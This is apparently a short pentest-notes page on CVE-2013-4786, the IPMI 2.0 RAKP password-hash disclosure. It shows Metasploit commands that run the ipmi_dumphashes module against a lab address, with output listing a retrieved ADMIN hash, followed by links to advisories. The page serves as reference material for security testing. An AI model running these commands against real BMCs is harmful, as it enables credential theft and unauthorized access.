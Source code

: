 ```yaml
---
title : "CVE-2013-4786"
# pre : ' '
description : "The IPMI 2.0 specification supports RMCP+ Authenticated Key-Exchange Protocol (RAKP) authentication, which allows remote attackers to obtain password hashes and conduct offline password guessing attacks by obtaining the HMAC from a RAKP message 2 response from a BMC."
date : 2020-05-06T09:32:00+02:00
# hidden : true
# draft : true
weight : 0
# tags : ['']
---
```


## CVE-2013-4786 - IPMI Password hash retrieval

### Exploit

```plain
msf5 use auxiliary/scanner/ipmi/ipmi_dumphashes
msf5 auxiliary(scanner/ipmi/ipmi_dumphashes) > set rhosts 10.10.10.12
msf5 auxiliary(scanner/ipmi/ipmi_dumphashes) > run
[+] 10.10.10.12:623 - IPMI - Hash found: ADMIN:84eaac57180000006c2ad3df7e0a746f542cf3232b7a3b0ee20f4eff[...]00140541444d494e:361d72b683182e7adf0478d7113f30443988b8d0
[*] Scanned 1 of 1 hosts (100% complete)
[*] Auxiliary module execution completed
```

## URL List

- [Tenable.com](https://www.tenable.com/cve/CVE-2013-4786)
- [Nvd.nist.gov](https://nvd.nist.gov/vuln/detail/CVE-2013-4786)
